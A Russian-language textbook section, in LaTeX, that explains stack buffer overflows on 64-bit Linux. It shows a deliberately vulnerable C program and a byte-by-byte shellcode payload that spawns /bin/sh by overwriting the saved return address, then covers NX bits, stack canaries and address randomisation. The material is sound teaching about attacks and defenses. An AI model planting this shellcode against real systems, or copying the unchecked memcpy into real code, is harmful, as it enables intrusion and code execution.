\section[Переполнение буфера в стеке с исполнением кода]{Переполнение буфера в стеке с \protect\\ исполнением кода}

В качестве примера переполнения буфера опишем самую распространенную атаку, направленную на исполнение кода злоумышленника.

В 64-битовой x86\_64 архитектуре основное пространство виртуальной памяти процесса из 16 экзабайтов ($2^{64}$ байтов) свободно и только малая часть занята (выделена). Виртуальная память выделяется процессу операционной системой блоками по 4 Кб, называемыми страницами памяти. Выделенные страницы соответствуют страницам физической оперативной памяти или страницам файлов.

Пример выделенной виртуальной памяти процесса представлен в табл. \ref{tab:virtual-memory}. Локальные переменные функций хранятся в области памяти, называемой стеком.
\begin{table}[h!]
    \centering
    \caption{Пример структуры виртуальной памяти процесса\label{tab:virtual-memory}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{r|c|}
        \multicolumn{2}{c}{Адрес ~~~~~~~~~~~~~~ Использование} \\
        \cline{2-2}
        \texttt{0x00000000 00000000} & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0040063F} & \multirow{2}{*}{\parbox{6cm}{Исполняемый код, динамические библиотеки}} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0143E010} & \multirow{2}{*}{Динамическая память} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF A425DF26} & \multirow{2}{*}{Переменные среды} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF FFFFEB60} & \multirow{2}{*}{Стек функций} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        \texttt{0xFFFFFFFF FFFFFFFF} & \\
        \cline{2-2}
    \end{tabular} }
\end{table}

Приведем пример переполнения буфера в стеке\index{стек}, которое дает возможность исполнить код, для 64-разрядной ОС Linux. Ниже приводится листинг исходной программы, которая печатает расстояние Хэмминга для векторов $b1 = \text{\texttt{0x01234567}}$ и $b2 = \text{\texttt{0x89ABCDEF}}$.

\begin{verbatim}
#include "stdio.h"
#include "string.h"

int hamming_distance(unsigned a1, unsigned a2, char *text,
                     size_t textsize) {
  char buf[32];
  unsigned distance = 0;
  unsigned diff = a1 ^ a2;
  while (diff) {
    if (diff & 1) distance++;
    diff >>= 1;
  }
  memcpy(buf, text, textsize);
  printf("%s: %i\n", buf, distance);
  return distance;
}

int main() {
  char text[68] = "Hamming";
  unsigned b1 = 0x01234567;
  unsigned b2 = 0x89ABCDEF;
  return hamming_distance(b1, b2, text, 8);
}
\end{verbatim}

Вывод программы при запуске:
\begin{verbatim}
$ ./hamming
Hamming: 8
\end{verbatim}

При вызове вложенных функций стек для них выделяется сразу над стеком текущей функции в сторону уменьшения адреса. Стек функции в порядке уменьшения адреса состоит из следующих частей.
\begin{enumerate}
    \item Сохраненный регистр процессора \texttt{rip} внешней функции. Регистр процессора \texttt{rip} содержит адрес следующей инструкции для исполнения. При входе во вложенную функцию адрес инструкции текущей функции запоминается в стеке, в регистре записывается новое значение адреса первой инструкции из вложенной функции, а по завершении функции регистр восстанавливается из стека, и, таким образом, исполнение возвращается назад.
    \item Сохраненный регистр процессора \texttt{rbp} внешней функции. Регистр процессора \texttt{rbp} содержит адрес стека текущей функции. Процессор обращается к локальным переменным функций по смещению относительно регистра \texttt{rbp}. При вызове вложенной функции регистр сохраняется в стеке, в регистр записывается адрес стека вложенной функции, а по завершению функции регистр восстанавливается.
    \item Локальные переменные, расположенные в порядке уменьшения адреса при объявлении новой переменной.
    \item Аргументы вызова функции, расположенные в порядке уменьшения адреса.
\end{enumerate}

Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выравнены на границу параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе есть ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохраненного значения регистра -- \texttt{rip} новое. В результате по завершении данной функции исполнение начнется с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохраненного регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис. \ref{fig:stack-overflow} приведены исходный стек функций и стек с переполненным буфером, в результате которого записалось новое сохраненное значение \texttt{rip}.

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.95\textwidth]{pic/stack-overflow}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохраненных регистров
    "\x00\x00\x00\x00"                  // не занятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции и в другие регистры процессора аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис. \ref{fig:stack-overflow} приведен стек с переполненным буфером, в результате которого записалось новое сохраненное значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека не известны, поэтому злоумышленник угадывает предполагаемый адрес стека. Вначале исполняемого кода создается массив из операций \texttt{nop} с надеждой, что предполагаемое значение стека, то есть требуемый адрес rip, попадет на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

В результате переполнения буфера в примере по завершении функции \texttt{hamming\_distance()} начнет исполняться инструкция с адреса строки \texttt{buf}, то есть заданный код.


\subsection{Защита}

Самый лучший способ защиты от атак переполнения буфера -- создание программного кода со слежением за размером данных и длиной буфера. Однако ошибки все равно происходят.

Существует три стандартных способа защиты от исполнения кода в стеке в архитектуре x86.

\begin{enumerate}
    \item Все 64-разрядные x86 процессоры включают поддержку NX-бита (non-execution)\index{NX-бит}. В таблице виртуальной памяти, выделенной процессу, каждая страница маркирована битом, называемым NX-битом и указывающим на то, может ли данная страница памяти содержать исполняемый код или нет. Преобразование адресов из виртуальных в адреса физической памяти выполняется процессором на основании таблицы виртуальной памяти процесса. Процессор, считывая в том числе значение NX-бита, запрещает исполнение кода из страниц данных и вызывает критическую ошибку сегментирования (segmentation fault).

        Последние версии ядер ОС поддерживают маркирование страниц выделяемой памяти. Маркирование производится исходя из того содержит страница памяти исполняемый код программы или нет. Приведенный выше пример исполнения кода в стеке не будет работать в 64-битовой ОС Linux последних версий при стандартных настройках.
        %Тем не менее, есть программы, динамически формирующие код во время выполнения для которых NX-бит не используется

    \item Второй стандартный способ -- вставка проверочных символов (называемых canaries, guards) после массивов и в конце стека и их проверка перед выходом из функции. Если произошло переполнение буфера, программа аварийно завершится.

    \item Третий мало используемый способ -- рандомизация адресов стека, кода и т.д. Как правило, ОС и компилятор определяют адреса и структуру стека детерминированным образом. Это означает, что можно однозначно указать область расположения стека. Рандомизация адресов приводит к маловероятному угадыванию адреса.
\end{enumerate}


\subsection{Другие атаки с переполнением буфера}

Почти любую возможность для переполнения буфера в стеке или динамической памяти можно использовать для получения критической ошибки в программе из-за обращения к адресам виртуальной памяти, страницы которых не были выделены процессу. Следовательно, можно проводить атаки отказа в обслуживании (denial of service (DoS) атаки).

Переполнение буфера в динамической памяти в случае хранения в ней адресов для вызова функций может привести к подмене адресов и исполнению другого кода.

В описанных DoS-атаках NX-бит  не защищает систему.
